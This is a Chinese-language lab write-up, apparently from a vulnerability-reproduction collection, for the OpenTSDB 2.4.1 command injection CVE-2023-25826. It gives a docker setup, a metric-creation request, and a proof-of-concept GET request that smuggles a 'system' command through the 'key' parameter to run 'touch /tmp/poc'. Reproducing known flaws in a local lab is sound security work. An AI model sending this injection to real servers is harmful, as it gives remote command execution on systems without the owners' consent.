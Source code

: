 # OpenTSDB 命令注入漏洞（CVE-2023-25826）

OpenTSDB是一款基于Hbase的、分布式的、可伸缩的时间序列数据库。
2.4.1版本及之前，存在一处命令注入漏洞。
这个漏洞其实是对之前的CVE-2020-35476修复不完善导致的，所以整个复现过程也与之前类似。

参考链接：

- https://www.synopsys.com/blogs/software-security/opentsdb/
- https://github.com/OpenTSDB/opentsdb/pull/2275

## 漏洞环境

执行如下命令启动一个OpenTSDB 2.4.1：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:4242`即可看到OpenTSDB的Web接口。

## 漏洞复现

这之前的都和CVE-2020-35476一致，也是需要知道一个metric的名字，可以通过`http://your-ip:4242/api/suggest?type=metrics&q=&max=10`查看metric列表。

如果metrics是空的，由于当前OpenTSDB开启了自动创建metric功能（`tsd.core.auto_create_metrics = true`），所以也可以使用如下API创建一个名为`sys.cpu.nice`的metric并添加一条记录：

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

如果目标OpenTSDB存在metric，且不为空，则无需上述步骤。

然后这里的poc就有所不同了，这里可以看到绕过修复的一个点，在参数key这里：

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close


```

![](1.png)

进入容器中可见`touch /tmp/poc`已成功执行：

![](2.png)
